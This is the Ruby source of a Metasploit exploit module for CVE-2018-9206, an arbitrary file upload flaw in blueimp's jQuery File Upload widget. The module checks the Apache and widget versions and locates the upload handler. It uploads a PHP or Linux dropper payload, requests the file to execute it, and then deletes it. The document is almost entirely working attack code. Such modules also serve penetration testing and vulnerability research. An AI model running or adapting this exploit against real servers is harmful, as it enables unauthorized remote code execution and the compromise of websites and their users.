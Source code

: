 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote

      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::PhpEXE

      def initialize(info = {})
        super(update_info(info,
          'Name'           => "blueimp's jQuery (Arbitrary) File Upload",
          'Description'    => %q{
            This module exploits an arbitrary file upload in the sample PHP upload
            handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

            Due to a default configuration in Apache 2.3.9+, the widget's .htaccess
            file may be disabled, enabling exploitation of this vulnerability.

            This vulnerability has been exploited in the wild since at least 2015
            and was publicly disclosed to the vendor in 2018. It has been present
            since the .htaccess change in Apache 2.3.9.

            This module provides a generic exploit against the jQuery widget.
          },
          'Author'         => [
            'Claudio Viviani',     # WordPress Work the Flow (Arbitrary) File Upload
            'Larry W. Cashdollar', # (Re)discovery, vendor disclosure, and PoC
            'wvu'                  # Metasploit module
          ],
          'References'     => [
            ['CVE', '2018-9206'],
            ['URL', 'http://www.vapidlabs.com/advisory.php?v=204'],
            ['URL', 'https://github.com/blueimp/jQuery-File-Upload/pull/3514'],
            ['URL', 'https://github.com/lcashdol/Exploits/tree/master/CVE-2018-9206'],
            ['URL', 'https://www.homelab.it/index.php/2015/04/04/wordpress-work-the-flow-file-upload-vulnerability/'],
            ['URL', 'https://github.com/rapid7/metasploit-framework/pull/5130'],
            ['URL', 'https://httpd.apache.org/docs/current/mod/core.html#allowoverride']
          ],
          'DisclosureDate' => 'Oct 9 2018', # Larry's disclosure to the vendor
          'License'        => MSF_LICENSE,
          'Platform'       => ['php', 'linux'],
          'Arch'           => [ARCH_PHP, ARCH_X86, ARCH_X64],
          'Privileged'     => false,
          'Targets'        => [
            ['PHP Dropper',   'Platform' => 'php',   'Arch' => ARCH_PHP],
            ['Linux Dropper', 'Platform' => 'linux', 'Arch' => [ARCH_X86, ARCH_X64]]
          ],
          'DefaultTarget'  => 0
        ))

        register_options([
          OptString.new('TARGETURI', [true, 'Base path', '/jQuery-File-Upload'])
        ])
      end

      def version_paths
        %w[
          /package.json
          /bower.json
        ].map { |u| normalize_uri(target_uri.path, u) }
      end

      # List from PoC sorted by frequency
      def upload_paths
        %w[
          /server/php/index.php
          /server/php/upload.class.php
          /server/php/UploadHandler.php
          /example/upload.php
          /php/index.php
        ].map { |u| normalize_uri(target_uri.path, u) }
      end

      def check
        a = nil

        version_paths.each do |u|
          vprint_status("Checking #{u}")

          res = send_request_cgi(
            'method' => 'GET',
            'uri'    => u
          )

          next unless res

          unless a
            res.headers['Server'] =~ /Apache\/([\d.]+)/ &&
              $1 && (a = Gem::Version.new($1))

            if a && a >= Gem::Version.new('2.3.9')
              vprint_good("Found Apache #{a} (AllowOverride None may be set)")
            elsif a
              vprint_warning("Found Apache #{a} (AllowOverride All may be set)")
            end
          end

          next unless res.code == 200 && (j = res.get_json_document) &&
                      j['version'] && (v = Gem::Version.new(j['version']))

          if v <= Gem::Version.new('9.22.0')
            vprint_good("Found unpatched jQuery File Upload #{v}")
            return CheckCode::Appears
          else
            vprint_error("Found patched jQuery File Upload #{v}")
            return CheckCode::Safe
          end
        end

        CheckCode::Unknown
      end

      def find_upload
        upload_paths.each do |u|
          vprint_status("Checking #{u}")

          res = send_request_cgi(
            'method' => 'GET',
            'uri'    => u
          )

          if res && res.code == 200
            vprint_good("Found #{u}")
            return u
          end
        end

        nil
      end

      def exploit
        unless check == CheckCode::Appears && (u = find_upload)
          fail_with(Failure::NotFound, 'Could not find target')
        end

        f = "#{rand_text_alphanumeric(8..42)}.php"
        p = normalize_uri(File.dirname(u), 'files', f)

        print_status('Uploading payload')
        res = upload_payload(u, f)

        unless res && res.code == 200 && res.body.include?(f)
          fail_with(Failure::NotVulnerable, 'Could not upload payload')
        end

        print_good("Payload uploaded: #{full_uri(p)}")

        print_status('Executing payload')
        exec_payload(p)

        print_status('Deleting payload')
        delete_payload(u, f)
      end

      def upload_payload(u, f)
        p = get_write_exec_payload(unlink_self: true)

        m = Rex::MIME::Message.new
        m.add_part(p, nil, nil, %(form-data; name="files[]"; filename="#{f}"))

        send_request_cgi(
          'method' => 'POST',
          'uri'    => u,
          'ctype'  => "multipart/form-data; boundary=#{m.bound}",
          'data'   => m.to_s
        )
      end

      def exec_payload(p)
        send_request_cgi({
          'method' => 'GET',
          'uri'    => p
        }, 1)
      end

      def delete_payload(u, f)
        send_request_cgi(
          'method'   => 'DELETE',
          'uri'      => u,
          'vars_get' => {'file' => f}
        )
      end

    end
